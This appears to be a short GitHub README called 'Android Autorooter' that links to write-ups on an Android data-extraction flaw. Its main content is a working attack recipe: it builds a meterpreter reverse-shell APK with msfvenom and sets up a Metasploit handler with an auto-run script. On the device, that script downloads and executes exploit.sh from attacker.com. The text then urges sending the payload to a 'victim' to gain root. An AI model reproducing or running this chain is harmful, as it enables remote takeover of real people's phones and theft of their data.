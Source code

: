 

# Android Autorooter
[![Autorooter](https://cdn.mos.cms.futurecdn.net/k7c2VW8eHbWtSaCgzLAa4P-320-80.jpeg)]


This is just a mental note more than anything to further explore the posibilities of the work done here:
https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html
https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03
https://www.mobile-hacker.com/2024/06/17/exfiltrate-sensitive-user-data-from-apps-on-android-12-and-13-using-cve-2024-0044-vulnerability/

Ultimately I'd like to have a self executing exploit but babysteps yeah..

## Give this a try

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> R > payload.apk
```

Create a resource script execute_script.rc to automate the commands:
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
exploit -j
set AutoRunScript multi_console_command -rc /path/to/commands.rc
```

Create the resource script with the necessary commands:
```
cd /data/local/tmp
wget http://attacker.com/exploit.sh -O exploit.sh
chmod +x exploit.sh
./exploit.sh
```

Start Metasploit with the resource script:
```
msfconsole -r execute_script.rc
```
Get the party started with:
```
msfconsole -r execute_script.rc
```

Now your listener/payload delivery is set up...  Send that payload.apk to the victim.. Lets get some root baby
